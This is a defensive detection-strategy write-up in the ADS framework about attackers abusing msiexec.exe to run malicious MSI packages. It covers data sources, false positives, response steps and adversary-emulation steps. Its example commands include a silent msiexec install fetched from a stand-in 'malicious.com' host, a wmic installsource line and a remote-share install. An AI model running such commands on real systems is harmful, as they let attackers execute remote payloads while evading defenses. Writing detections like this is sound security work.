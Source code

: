 # Palantir's Alerting & Detection Strategy (ADS) Framework: Detecting Adversarial Attempts Using Msiexec.exe

## **Goal**
The goal of this technique is to detect adversarial attempts that utilize `msiexec.exe` for executing payloads through MSI files, which may include scripts or binaries designed for malicious purposes. This method often aims to evade security detection by leveraging legitimate system processes.

## **Categorization**

- **MITRE ATT&CK Mapping:** T1218.007 - Msiexec
- **Tactic / Kill Chain Phases:** Defense Evasion
- **Platforms:** Windows
- [MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1218/007)

## **Strategy Abstract**
The detection strategy involves monitoring for unusual or suspicious use of `msiexec.exe`, a legitimate Windows tool, which could be abused to execute malicious payloads. The strategy leverages various data sources such as:

- Process monitoring logs
- Event logs (e.g., Application, System)
- Network traffic analysis

Patterns analyzed include:

- Execution of MSI files with embedded scripts or binaries.
- Msiexec.exe running remotely initiated commands.
- Use of `msiexec` for invoking DLL functions like `DllRegisterServer` and `DllUnregisterServer`.

## **Technical Context**
Adversaries exploit `msiexec.exe` to run scripts or executables that are hidden within MSI files, effectively bypassing standard security controls. This technique is often employed in sophisticated attacks to install malware silently.

### Adversary Emulation Details:
- Execution of MSI with embedded JScript or VBScript.
- Running MSI containing embedded DLLs or EXEs.
- Utilizing the `Win32_Product` WMI class to execute malicious payloads through MSI files.
- Command examples include:
  - `msiexec.exe /qn /i http://malicious.com/install.msi`
  - `wmic product call installsource "C:\path\to\malicious.msi"`

## **Blind Spots and Assumptions**
- Legitimate use of MSI files for software deployment may trigger alerts.
- Detection assumes that monitoring systems are configured to capture all relevant process executions, which might not always be the case.

## **False Positives**
Potential benign activities include:

- Standard software installations using MSI packages by IT departments.
- Routine administrative tasks involving MSI file management.
- False positives could occur during large-scale legitimate deployments of software updates or patches.

## **Priority**
**Severity: High**

Justification:
This technique is often used in advanced persistent threats (APTs) to evade detection. The ability to disguise malicious activities as legitimate system processes makes it a high-priority threat vector, necessitating robust monitoring and response strategies.

## **Validation (Adversary Emulation)**

### Steps for Emulating the Technique:

1. **Msiexec.exe - Execute Local MSI file with embedded JScript**
   - Create an MSI containing a JScript payload.
   - Use `msiexec.exe` to install it locally:  
     ```shell
     msiexec /qn /i C:\path\to\scripted.msi
     ```

2. **Msiexec.exe - Execute Local MSI file with embedded VBScript**
   - Embed a VBScript in an MSI and execute using `msiexec`.

3. **Msiexec.exe - Execute Local MSI file with an embedded DLL**
   - Package a DLL within the MSI.
   - Run it via:  
     ```shell
     msiexec /qn /i C:\path\to\dll.msi
     ```

4. **Msiexec.exe - Execute Local MSI file with an embedded EXE**
   - Embed an executable in an MSI and deploy.

5. **WMI Win32_Product Class - Execute Local MSI file with embedded JScript/VBScript/DLL/EXE**
   - Use WMI to execute MSI containing malicious scripts or binaries:
     ```shell
     wmic product call installsource "C:\path\to\malicious.msi"
     ```

6. **Msiexec.exe - Execute the DllRegisterServer function of a DLL**
   - Install an MSI that registers a DLL:  
     ```shell
     msiexec /qn /i C:\path\to\dllreg.msi
     ```

7. **Msiexec.exe - Execute Remote MSI file**
   - Deploy and execute an MSI from a remote server:
     ```shell
     msiexec /qn /i \\remote-server\share\install.msi
     ```

## **Response**
When the alert fires, analysts should:

1. Isolate affected systems to prevent further spread.
2. Verify the legitimacy of the `msiexec.exe` execution context.
3. Analyze the contents and purpose of the MSI file in question.
4. Review related logs for additional indicators of compromise (IOCs).
5. Update detection rules if needed, based on findings.

## **Additional Resources**
- Msiexec Quiet Installation
- Suspicious Msiexec Quiet Install From Remote Location
- DllUnregisterServer Function Call Via Msiexec.EXE
- Suspicious Msiexec Execute Arbitrary DLL

These resources provide further context and reference scenarios for detecting malicious uses of `msiexec.exe`.